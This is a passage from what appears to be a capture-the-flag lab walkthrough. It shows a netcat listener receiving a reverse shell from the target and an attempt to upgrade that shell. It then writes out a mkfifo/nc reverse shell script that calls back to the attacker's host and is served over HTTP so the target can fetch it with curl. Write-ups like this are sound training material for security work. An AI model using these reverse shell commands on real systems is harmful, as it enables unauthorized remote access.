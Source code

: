 Copy and paste the URL into a browser and hit enter. In our netcat shell, we receive a connection from the target:

```
└─$ nc -nvlp 8585                                                                                           130 ⨯
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::8585
Ncat: Listening on 0.0.0.0:8585
Ncat: Connection from 10.10.10.218.
Ncat: Connection from 10.10.10.218:65180.
sh: can't access tty; job control turned off
$ id
uid=24(_httpd) gid=24(_httpd) groups=24(_httpd)
$ 
```

When we try and upgrade our shell by first checking for an installed version of python3, we get an error message stating that our PATH environment variable is not set. We can fix it by setting one as follows:

```
$ which python3
which: PATH environment variable is not set
$ cat /.cshrc | grep "set path"
set path=(/sbin /usr/sbin /bin /usr/bin /usr/pkg/sbin /usr/pkg/bin /usr/X11R7/bin /usr/local/sbin /usr/local/bin)
$ which python
$ which python3
$

```

Unfortunately there is no python installed on the system, so let's move on.

## Gaining Access Method 2 - Curl

Instead of using the browser and URL encoding everything, we could also use "curl" to fetch a reverse shell script and run it.

First, create a script as follows:

```
└─$ cat shell.sh                                                                                              2 ⚙
#!/bin/sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 8585 >/tmp/f

```

Next, start a python web server in the directory with the shell script, and start a netcat listener:

```
└─$ python3 -m http.server                                                                                    2 ⚙
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```
